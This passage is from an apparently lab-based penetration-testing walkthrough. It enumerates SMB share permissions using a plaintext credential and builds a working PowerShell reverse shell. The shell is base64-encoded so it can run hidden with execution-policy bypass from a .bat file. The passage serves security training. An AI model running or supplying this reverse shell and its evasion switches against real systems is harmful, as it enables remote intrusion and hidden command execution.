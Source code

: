 From `smbclient`'s output, we will discover that there is a folder named "EricsScripts"; to determine the permissions that `david` has on it, we will utilize [smbcacls](https://www.samba.org/samba/docs/current/man-html/smbcacls.1.html), which enables us to view ACLs on an NT file or directory names (ensure there is space after the share's name):

```shell
anas21@htb[/htb]$ smbcacls //10.129.229.224/NETLOGON /EricsScripts -U David%'SecurePassDav!d5'
```

`smbcacls` displays that `david` has `R` (`Read`), `W` (`Write`), and `X` (`Execute`) permissions on the folder; therefore, we can write files, and most importantly our exploit script, to the folder.

### Step 2

To establish a reverse shell as `eric` with PowerShell, we can use the `PowerShell #1` Windows reverse shell payload from [revshells.com](https://www.revshells.com/), making sure to replace `IP` with the `Pwnbox` IP and `PORT` with the listener's port:

```powershell
$LHOST = "ATTACKER_IP"; $LPORT = ATTACKER_PORT; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

Because we will run the PowerShell payload from a `.bat` or `.vbs` file, we can use Python to convert it to `UTF-16LE` (`16-bit Unicode Transformation Format Little-Endian`) then base64-encode it to avoid dealing with escaping quotation marks (alternatively, we can directly use the `PowerShell #3 (Base64)` reverse shell from [revshells.com](https://www.revshells.com/)):

```shell
anas21@htb[/htb]$ python3 -c 'import base64; print(base64.b64encode((r"""$LHOST = "10.129.229.84"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()""").encode("utf-16-le")).decode())'
```

Then, within a `.bat` file, we will use the `powershell` command and pass to it the switches [-ExecutionPolicy Bypass](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1#-executionpolicy-executionpolicy), [-WindowStyle Hidden](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1#-windowstyle-window-style), and most importantly, [-EncodedCommand/-enc](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1#-encodedcommand-base64encodedcommand) followed by the PowerShell encoded reverse shell one-liner:
